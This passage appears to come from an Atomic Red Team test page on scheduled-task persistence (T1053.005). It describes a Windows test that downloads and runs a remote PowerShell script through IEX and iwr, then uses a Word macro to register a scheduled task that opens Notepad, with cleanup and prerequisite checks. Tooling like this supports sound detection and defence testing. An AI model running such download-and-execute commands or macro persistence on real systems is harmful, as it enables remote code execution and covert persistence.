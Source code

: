 **Supported Platforms:** Windows


**auto_generated_guid:** ecd3fa21-7792-41a2-8726-2c5c673414d3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1053.005\src\T1053.005-macrocode.txt" -officeProduct "#{ms_product}" -sub "Scheduler"
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "Run Notepad" -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #6 - WMI Invoke-CimMethod Scheduled Task
Create an scheduled task that executes notepad.exe after user login from XML by leveraging WMI class PS_ScheduledTask. Does the same thing as Register-ScheduledTask cmdlet behind the scenes.
